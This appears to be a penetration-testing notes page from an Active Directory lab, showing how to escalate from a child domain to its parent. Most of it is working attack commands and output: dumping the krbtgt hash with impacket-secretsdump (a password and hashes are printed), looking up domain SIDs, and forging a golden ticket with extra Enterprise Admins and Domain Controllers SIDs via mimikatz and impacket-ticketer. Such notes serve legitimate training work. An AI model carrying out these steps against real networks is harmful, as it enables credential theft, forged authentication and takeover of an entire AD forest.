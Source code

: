 <pre class="language-powershell"><code class="lang-powershell"><strong># get the ad trust information
</strong><strong>Get-ADTrust -Filter * 
</strong>Get-DomainTrust -Filter *

# get forest information
Get-ADForest
</code></pre>

## Generate a Ticket to move between DCs

Requirements:

* Admin privilege on Child DC
* get krbtgt hash

```bash
impacket-secretsdump 'corpmngr@192.168.98.120'
> User4&*&*

krbtgt:502:aad3b435b51404eeaad3b435b51404ee:e57dd34c1871b7a23fb17a77dec9b900:::
krbtgt:aes256-cts-hmac-sha1-96:ad8c273289e4c511b4363c43c08f9a5aff06f8fe002c10ab1031da11152611b2
```

* SID of both child and parent machine

```powershell
# with PowerView
Get-DomainSID -Domain child.DOMAIN.com
Get-DomainSID -Domain DOMAIN.com

# from kali machine
impacket-lookupsid child/corpmngr:'User4&*&*'@child.warfare.corp
[*] Domain SID is: S-1-5-21-3754860944-83624914-1883974761

impacket-lookupsid child/corpmngr:'User4&*&*'@warfare.corp
[*] Domain SID is: S-1-5-21-3375883379-808943238-3239386119
```

### Craft golden ticket

{% code overflow="wrap" %}
```powershell
.\mimi.exe

kerberos::golden /user:Administrator /domain:$CURRENT_DOMAIN /sid:$SID /sids:$PARENT_DOMAIN_SID-519 /aes256:$KRBTGT_AES256 /startoffset:-5 /endin:600 /renew:10080 /ptt

# using Ticketer
impacket-ticketer -domain child.warfare.corp -aesKey ad8c273289e4c511b4363c43c08f9a5aff06f8fe002c10ab1031da11152611b2 -domain-sid S-1-5-21-3754860944-83624914-1883974761 -groups 516 -user-id 1106 -extra-sid S-1-5-21-3375883379-808943238-3239386119-516,S-1-5-9 'corpmngr'


```
{% endcode %}
